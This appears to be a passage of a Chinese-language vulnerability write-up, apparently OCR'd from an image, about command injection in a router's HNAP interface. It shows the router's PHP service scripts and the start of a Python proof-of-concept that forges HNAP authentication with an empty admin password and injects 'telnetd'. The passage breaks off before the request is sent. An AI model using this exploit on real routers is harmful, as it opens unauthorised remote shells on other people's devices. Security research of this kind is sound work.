 HTTP.WAN-1 是一种服务，对应于/etc/services/HTTP.WAN-1.php，该服务会开启 IPT.WAN-1 服务

```
<?
include "/etc/services/HTTP/httpsvcs.php";
fwrite("w",$START,"#!/bin/sh\n");
fwrite("w", $STOP,"#!/bin/sh\n");
fwrite("a",$START,"service IPT.WAN-1 restart\n");#here!!!!
fwrite("a",$START,"service STUNNEL restart\n");
httpsetup("WAN-1");
?> 
```

/etc/services/IPT.WAN-1.php 会执行之前所说的 iptables 命令

```
<?
include "/htdocs/phplib/trace.php";
include "/etc/services/IPTABLES/iptwan.php";
IPTWAN_build_command("WAN-1");
?> 
```

### 漏洞复现

```
import requests
import telnetlib
from hashlib import md5
import time
import math

trans_5C = "".join(chr(x ^ 0x5c) for x in xrange(256))
trans_36 = "".join(chr(x ^ 0x36) for x in xrange(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    if len(key) > blocksize:
        key = md5(key).digest()
    key += chr(0) * (blocksize - len(key))
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())

def HNAP_AUTH(SOAPAction, privateKey):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(privateKey, b + '"http://purenetworks.com/HNAP1/' + SOAPAction + '"').hexdigest().upper()
    return h + " " + b

#输入 IP 和 admin 口令，通过读 hnap_main 的二进制，理解初始状态 admin 的口令为空（public_key_0：0 代表空值）
IP = '192.168.0.1'
adminPw = ''

command = "telnetd" # command injection id

headers = requests.utils.default_headers()
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/Login"'
headers["Origin"] = "http://" + IP
headers["Referer"] = "http://" + IP + "/info/Login.html"
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["X-Requested-With"] = "XMLHttpRequest"

```